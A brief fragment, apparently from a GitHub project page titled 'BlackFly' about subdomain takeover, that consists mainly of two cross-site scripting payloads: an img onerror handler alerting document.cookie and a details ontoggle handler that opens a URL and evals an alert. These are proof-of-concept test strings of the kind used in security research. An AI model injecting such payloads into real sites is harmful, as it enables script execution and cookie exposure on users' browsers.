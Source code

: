 <h1>BlackFly</h1>

SubDomain Takeover


"><img src=x onerror=alert(document.cookie)>
<details open ontoggle=window.open("https://www.doyensec.com");win.eval("alert(document.domain)");>
